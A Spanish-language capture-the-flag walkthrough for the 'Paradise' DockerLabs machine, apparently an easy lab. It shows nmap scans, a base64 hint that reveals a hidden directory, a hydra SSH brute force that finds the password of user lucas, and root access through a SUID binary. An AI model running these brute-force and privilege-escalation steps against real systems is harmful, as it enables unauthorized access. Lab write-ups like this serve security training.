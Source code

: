```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Paradise DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip paradise.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh paradise.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 15:06 EST
Nmap scan report for 172.17.0.2
Host is up (0.000022s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
|_  256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Andys's House
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: b501da0b8f9b
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: b501da0b8f9b
|_  System time: 2025-02-18T20:06:38+00:00
| smb2-time: 
|   date: 2025-02-18T20:06:39
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.56 seconds
```

Si vamos a la pagina veremos algo normal, pero si le damos a `Go paradise` e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- ZXN0b2VzdW5zZWNyZXRvCg== -->
```

Vemos que esta codificado en `Base64` por lo que lo decodificaremos:

```shell
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d
```

Info:

```
estoesunsecreto
```

Por lo que podemos creer puede ser una contraseña de algun usuario, pero no vamos a tener suerte con ello, si lo intentamos poner como un directorio de `URL` veremos que si funciona:

```
URL = http://<IP>/estoesunsecreto
```

Y vemos un archivo llamado `mensaje_para_lucas.txt` que contiene lo siguiente:

```
REMEMBER TO CHANGE YOUR PASSWORD ACCOUNT, BECAUSE YOUR PASSWORD IS DEBIL AND THE HACKERS CAN FIND USING B.F.
```

Por lo que vemos el usuario `lucas` tiene una contraseña debil, por lo que vamos a tirarle un ataque de fuerza bruta con `hydra`, probaremos primero por `SSH`.

## Escalate user lucas

### Hydra

```shell
hydra -l lucas -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-18 15:11:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lucas   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-18 15:11:13
```

Vemos que hemos obtenido las credenciales del usuario `lucas`, por lo que nos meteremos por `SSH`.

### SSH

```shell
ssh lucas@<IP>
```

Metemos como contraseña `chocolate` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2406747   36 -rwsr-xr-x   1 root     root        36592 May 16  2017 /usr/bin/newgrp
2406865  152 -rwsr-xr-x   1 root     root       155008 May 29  2017 /usr/bin/sudo
2406607   44 -rwsr-xr-x   1 root     root        41336 May 16  2017 /usr/bin/chsh
2406604   48 -rwsr-xr-x   1 root     root        46424 May 16  2017 /usr/bin/chfn
2406760   48 -rwsr-xr-x   1 root     root        47032 May 16  2017 /usr/bin/passwd
2406678   72 -rwsr-xr-x   1 root     root        72280 May 16  2017 /usr/bin/gpasswd
2515879   12 -rwsr-xr-x   1 root     root        10240 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
2529841  432 -rwsr-xr-x   1 root     root       440416 Mar  4  2019 /usr/lib/openssh/ssh-keysign
2623342   12 -rwsr-xr-x   1 root     root         8789 Aug 30 13:13 /usr/local/bin/privileged_exec
2623261    4 -rwsr-xr-x   1 root     root          237 Jul 27  2024 /usr/local/bin/backup.sh
2404972   68 -rwsr-xr-x   1 root     root        69120 Nov 23  2016 /bin/umount
2404945   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
2404964   40 -rwsr-xr-x   1 root     root        36936 May 16  2017 /bin/su
2404931   96 -rwsr-xr-x   1 root     root        94792 Nov 23  2016 /bin/mount
2404944   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
```

Y vemos que esta la siguiente linea bastante interesante:

```
2623342  12 -rwsr-xr-x  1 root  root  8789 Aug 30 13:13 /usr/local/bin/privileged_exec
```

Y si ejecutamos esto directamente:

```shell
/usr/local/bin/privileged_exec
```

Info:

```
Running with effective UID: 0
root@b501da0b8f9b:~# whoami
root
```

Veremos que somos `root` directamente, por lo que habremos terminado la maquina.
